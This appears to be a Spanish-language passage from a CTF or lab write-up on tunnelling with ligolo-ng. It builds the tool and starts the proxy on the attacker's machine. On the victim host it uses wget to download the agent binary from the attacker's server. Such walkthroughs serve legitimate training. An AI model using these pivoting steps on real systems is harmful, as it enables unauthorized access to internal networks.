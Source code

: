 ## Port Forwarding with `ligolo-ng`

Esta herramienta es muy interesante.

> **Ligolo-ng** is a _simple_, _lightweight_ and _fast_ tool that allows pentesters to establish tunnels from a reverse TCP/TLS connection using a **tun interface** (without the need of SOCKS).

https://github.com/nicocha30/ligolo-ng

Nos la clonamos
```console
$ git clone https://github.com/nicocha30/ligolo-ng
```

Y ahora con `make` lo compilamos.

Ahora en `dist/` tenemos varias implementaciones de esta herramienta.
```console
$ ls
ligolo-ng-agent-linux_amd64  ligolo-ng-agent-windows_amd64.exe  ligolo-ng-proxy-linux_amd64  ligolo-ng-proxy-windows_amd64.exe
```

Ejecutamos el proxy en nuestra máquina.
```console
$ sudo ./ligolo-ng-proxy-linux_amd64 -selfcert -laddr 0.0.0.0:443
WARN[0000] Using default selfcert domain 'ligolo', beware of CTI, SOC and IoC! 
WARN[0000] Using self-signed certificates               
WARN[0000] TLS Certificate fingerprint for ligolo is: 933182FA4AD7854BDF24B78D1FF5DEFE9CA3E9662A1B680BC1C0F985D6D824E3 
INFO[0000] Listening on 0.0.0.0:443                     
    __    _             __                       
   / /   (_)___ _____  / /___        ____  ____ _
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ / 
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /  
        /____/                          /____/   

  Made in France ♥            by @Nicocha30!
  Version: dev

ligolo-ng »  
```

Ahora en la máquina víctima descargamos el agente.
```console
james@trickster:/tmp$ wget http://10.10.16.24:8081/ligolo-ng-agent-linux_amd64
--2024-09-23 18:24:42--  http://10.10.16.24:8081/ligolo-ng-agent-linux_amd64
Connecting to 10.10.16.24:8081... connected.
HTTP request sent, awaiting response... 200 OK
Length: 6127768 (5.8M) [application/octet-stream]
Saving to: ‘ligolo-ng-agent-linux_amd64’

ligolo-ng-agent-linux_amd64       100%[=============================================================>]   5.84M  2.06MB/s    in 2.8s    

2024-09-23 18:24:45 (2.06 MB/s) - ‘ligolo-ng-agent-linux_amd64’ saved [6127768/6127768]
```
